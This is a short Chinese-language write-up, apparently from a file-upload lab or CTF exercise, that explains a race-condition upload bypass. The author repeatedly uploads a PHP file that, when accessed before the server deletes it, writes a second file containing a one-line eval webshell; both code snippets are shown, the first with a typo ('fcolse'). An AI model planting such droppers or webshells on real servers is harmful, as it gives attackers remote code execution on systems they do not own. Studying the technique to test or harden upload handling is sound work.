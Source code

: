 发现先提示上传成功，然后后台对上的文件进行分析判断，判断上传的文件不符合要求然后被删除

这里用到的是条件竞争的上床方式，就是上传一个a网页，利用a网页生成一个b网页，b网页里包含了一个webshell，文件上传后后台会先进行分析再删除，在没有被删除的这个时间里，a网页是可以被访问的，一旦被访问就会生成b网页，但是分析在删除的时间是非常快的，所以我们要一直上传，上传的同时进行访问。

a.php里面构建，

```
<?php
	$file=fopen("b.php","w");
	$string='<?php @eval($_POST["mqy"]);成功 ?>';
	fwrite($file,$string);
	fcolse();
?>
```

代码的大体内容就是，访问a.php生成b.php，b.php里面包含

```
<?php @eval($_POST["mqy"]);成功 ?>
```



这里我推荐用bp自带的浏览器，就不用设置代理了

![image-20231231111540172](image\image-20231231111540172.png)
